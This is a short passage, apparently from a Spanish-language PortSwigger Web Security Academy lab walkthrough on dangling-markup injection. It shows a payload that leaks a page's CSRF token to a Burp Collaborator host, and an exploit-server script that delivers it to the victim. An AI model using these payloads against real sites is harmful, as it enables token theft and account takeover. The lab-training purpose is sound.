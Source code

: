 ![](img63.png)

Entonces usaremos el siguiente payload:

```
"><table background='//0gh5ibpa36x54ki12dydtmnfn6twhl.burpcollaborator.net?
```

Entonces en el exploit server usaremos la siguiente configuracion:

```html
<script>
location='https://aceb1fd01e82d058800aa188005b00f1.web-security-academy.net/email?email=%22%3E%3Ctable%20background=%27//0gh5ibpa36x54ki12dydtmnfn6twhl.burpcollaborator.net?';
</script>
```

Luego hacemos clic en **store** y en **Deliver exploit to victim**. Luego revisamos en el burp intruden para ver si recolectamos el token.

![](img64.png)
